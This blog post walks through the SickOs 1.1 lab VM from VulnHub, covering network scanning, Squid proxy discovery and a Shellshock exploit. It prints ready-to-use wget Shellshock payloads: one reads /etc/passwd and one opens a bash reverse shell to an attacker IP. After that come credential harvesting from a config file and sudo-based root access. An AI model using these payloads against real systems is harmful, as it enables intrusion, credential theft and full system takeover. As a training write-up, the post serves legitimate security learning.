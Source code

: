 ```yaml
---
layout: post
title: "sickos:1.1"
date: 2016-05-18 12:50:37 -0500
comments: true
categories: [vulhub, squid]
---
```



From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Metasploit
* FoxyProxy

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/sickos/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.178 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.178 -p-`

{% img  /images/blog/vulhub/sickos/Selection_002.png   [title manually exploit [alt text]] %}

Looks like port 22 and port 3218 are openning. Port 3218 is running Squid. open msfconsole, search squid. I found that:

{% img  /images/blog/vulhub/sickos/Selection_003.png   [title manually exploit [alt text]] %}

Then use this module to scan the squid service:

{% img  /images/blog/vulhub/sickos/Selection_004.png   [title manually exploit [alt text]] %}

Looks like port 80 is opened:

{% img  /images/blog/vulhub/sickos/Selection_005.png   [title manually exploit [alt text]] %}

Use FoxyProxy add-on to configure proxy:

{% img  /images/blog/vulhub/sickos/Selection_006.png   [title manually exploit [alt text]] %}

now visit http://192.168.79.178

{% img  /images/blog/vulhub/sickos/Selection_007.png   [title manually exploit [alt text]] %}

now let's use nikto to scan the server:

```
nikto -h localhost -useproxy http://192.168.79.178:3128
```

{% img  /images/blog/vulhub/sickos/Selection_008.png   [title manually exploit [alt text]] %}

looks like there is a shellshock vuln


Let's test it:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

{% img  /images/blog/vulhub/sickos/Selection_009.png   [title manually exploit [alt text]] %}

It works and looks  there is an account sickos.

Now lets setup reverse shell. 

netcat-style shell access without netcat:

`/bin/bash -i > /dev/tcp/[yourip]/[port] 0<&1`


in one terminal:

`nc -nlvp 4444`

in another terminal:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/bash -i > /dev/tcp/192.168.79.173/4444 0<&1" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

get the shell:


{% img  /images/blog/vulhub/sickos/Selection_010.png   [title manually exploit [alt text]] %}


After Enumeration, got a interesting file: `/var/www/wolfcms/config.php`

{% img  /images/blog/vulhub/sickos/Selection_011.png   [title manually exploit [alt text]] %}


Looks like the password is `john@123`

SSH to the target server as sickos and use this password:


{% img  /images/blog/vulhub/sickos/Selection_012.png   [title manually exploit [alt text]] %}



Check sickos's privilege:

`sudo -l`

{% img  /images/blog/vulhub/sickos/Selection_013.png   [title manually exploit [alt text]] %}

Looks like it can run as root


{% img  /images/blog/vulhub/sickos/Selection_014.png   [title manually exploit [alt text]] %}


YES
